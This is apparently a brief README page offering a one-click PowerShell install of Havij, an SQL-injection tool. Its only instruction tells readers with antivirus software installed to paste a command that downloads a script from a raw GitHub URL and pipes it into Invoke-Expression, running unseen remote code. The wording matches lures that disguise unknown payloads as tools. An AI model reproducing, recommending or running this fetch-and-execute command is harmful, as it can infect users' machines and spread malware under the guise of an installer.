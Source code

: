 ## Havij one-click install (PowerShell)

If you have antivirus software installed, run this command:
```powershell
iwr -useb https://raw.githubusercontent.com/mdromanmoonshi/havij/main/hlazy.ps1 | iex

